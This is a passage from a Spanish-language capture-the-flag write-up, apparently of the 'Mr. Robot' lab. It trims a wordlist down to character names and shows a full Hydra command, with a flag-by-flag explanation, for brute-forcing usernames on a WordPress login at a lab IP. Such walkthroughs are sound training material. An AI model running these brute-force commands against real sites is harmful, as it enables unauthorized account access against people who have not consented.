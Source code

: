 ```bash
858160 fsocity.dic
```
Esto nos hace sospechar que el objetivo es realizar un ataque de fuerza bruta en el panel de `WordPress`. Con el fin de tener un diccionario más limpio y optimizado, podemos eliminar los nombres repetidos. Como resultado, logramos reducir el diccionario a 11451 entradas.

```bash
❯ sort fsocity.dic | uniq > fsocity_sorted.dic
❯ wc -l fsocity_sorted.dic
11451 fsocity_sorted.dic
```

Dado que esta sala está inspirada en la serie **Mr. Robot**, podemos optimizar aún más nuestro diccionario filtrando únicamente las palabras relacionadas con algunos personajes de la serie.

```bash
❯ cat fsocity_sorted.dic | grep -wE "elliot|angela|darlene|tyrell|whiterose|joanna|shayla|irving|fernando"
angela
darlene
elliot
joanna
tyrell
whiterose
❯ cat fsocity_sorted.dic | grep -wE "elliot|angela|darlene|tyrell|whiterose|joanna|shayla|irving|fernando" > users.dic
```

## Explotación

---

Una vez obtenido nuestro diccionario de usuarios, procedemos a utilizar la herramienta **Hydra** para llevar a cabo la enumeración de los usuarios registrados en el panel de WordPress. Para ello, utilizamos el siguiente comando:

```bash
❯ hydra -L users.dic -p test 10.10.126.203 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.126.203%2Fwp-admin%2F&testcookie=1:F=Invalid username' -t 64
```

Donde:

- `-L users.dic`: indica que se usará el archivo users.dic como una lista de nombres de usuario para probar.
- `-p test`: indica que se usará la contraseña “test” para todos los nombres de usuario.
- `10.10.126.203`: indica la dirección IP del servidor objetivo.
- `http-post-form`: indica que se usará el método HTTP POST para enviar los datos del formulario.
- `'/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.126.203%2Fwp-admin%2F&testcookie=1:F=Invalid username'`: indica la ruta del formulario de inicio de sesión de WordPress, los parámetros que se enviarán con los marcadores `^USER^` y `^PASS^` que se reemplazarán por los valores de la lista y la contraseña, y el texto “Invalid username” que se usará para detectar un inicio de sesión fallido.
- `-t 64`: indica que se usarán 64 hilos concurrentes para realizar el ataque.
